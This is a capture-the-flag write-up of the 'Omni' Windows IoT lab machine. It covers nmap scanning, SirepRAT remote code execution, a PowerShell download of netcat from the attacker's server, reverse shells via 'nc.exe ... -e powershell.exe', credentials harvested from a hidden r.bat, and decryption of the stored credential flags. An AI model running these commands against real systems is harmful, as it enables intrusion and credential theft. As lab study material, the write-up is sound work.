Omni
- This Machine name is Omni and IP Address is 10.10.10.204 
Nmap
#cat omni.nmap
# Nmap 7.80 scan initiated Sun Aug 23 23:19:10 2020 as: nmap -sSV -O -A -T4 -sC -oN omni.nmap -Pn -p- 10.10.10.204
Nmap scan report for 10.10.10.204
Host is up (0.30s latency).
Not shown: 65529 filtered ports
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
5985/tcp open upnp Microsoft IIS httpd
8080/tcp open upnp Microsoft IIS httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open unknown
29819/tcp open arcserve ARCserve Discovery
29820/tcp open unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.80%I=7%D=8/23%Time=5F42FA2E%P=x86_64-unknown-linux-gn
SF:u%r(NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines
SF:,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xf
SF:b`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\
SF:x1c\xc9}\xc8O\x12");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (86%)
OS CPE: cpe:/o:microsoft:windows_xp::sp2
Aggressive OS guesses: Microsoft Windows XP SP2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows
TRACEROUTE (using port 8080/tcp)
HOP RTT ADDRESS
1 336.29 ms 10.10.16.1
2 336.50 ms 10.10.10.204
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 23 23:23:53 2020 -- 1 IP address (1 host up) scanned in 282.72 seconds
Web
Previous Nmap Result , Port 8080 Microsoft IIS httpd is open
I open browser and type this ip address , web page show like this , need username and password to login
I tried to bypass this login , It's not ok
In this time , my fri told me this is window IOT box
I got hint , I search at google. After few min searching in Google . I found interesting one Github Repo
This is RCE as System on Windows IOT Core SirepRATHere
I found SirepRAP has a function , this is Run Arbitrary Program
I download netcat 64 bit binary and start python simple http server
Low Priv Shell
- Now Let run SirepRAT script
- This command is successful . Check simple http server , You can found GET Request from machine ip address. 
#python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://10.10.16.2/nc64.exe" --v
Now execute our uploaded netcat on this box
#python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.208 1234 -e powershell.exe" --v
whoami command to check user but this whoami command is not work $env:UserName to know i got reverse shell from what user User
- After few minutes finding and Enumeration , I found one Interesting folder
- This is PackageManagement Folder locate in
C:\Program Files\WindowsPowerShell\Modules\Path

- I used
dircommand I found 1.0. blah blah folder - I used
dir -forcecommand , I found one file this is r.bat

- In this r.bat file I found the credentials of User App and Administrator
- I login with user App credentials to IIS WebServer run in port 8080
- Login successful 
- In this WebPage , I found one this is run command options in Process
- I think we can run system command from this run command 
- I start ncat listener at port 4444 on my host
- I run
C:\Windows\System32\spool\drivers\color\nc.exe 10.10.16.2 4444 -e powershell.exe - Boom I got Reverse Shell Connection 
- Previous User Omini Shell I found
whoamicommand is not work in this machine - I used
$env:UserNamecommand again to check what user i got - I got reverse shell as User App
- I found
C:\Usersdir but I found only Public Folder

Finding User Flag
- I upload winPEAS.exe and run this but i face some error in running this winpeas.exe file
- I try with winPEAS.bat , It's Work
- After Running WinPEAS and as it result 
- I found three mounted disk but I found U: in this Result
- can see C: and D: in most Window OS
- This Mount Disk U: is Interesting
- I go to this drive U: and check some folder 
- I found user App Home Folder in
U:\Users\Appand I found user.txt in this Path - I used
typeto see the flag content in this user.txt file - But I found Strange Content in this user.txt 
- I can't read this because it look like to be encrypted
- I use google and search what is this . I found
- We can use this function to see plaintext content in this file
$credential = Import-CliXml -PAth U:\Users\app\user.txt
$credential.GetNetworkCredential().PasswordRoot
- Perviously I found Administrator credentials in
C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.batfile - I used this Administrator credential to login IIS Web Server running at port 8080
- Login successful and In Previous User Session
- Start ncat listener in my host
- Go to Processes and Run command
- Run command like user shell command
- I got reverse shell as Administrator 
- I found root.txt in
U:\Users\Administrator\Path
C:\Windows\System32\spool\drivers\color\nc.exe IP PORT -e powershell.exe
$credential = Import-CliXml -PAth U:\Users\Administrator\root.txt
$credential.GetNetworkCredential().Password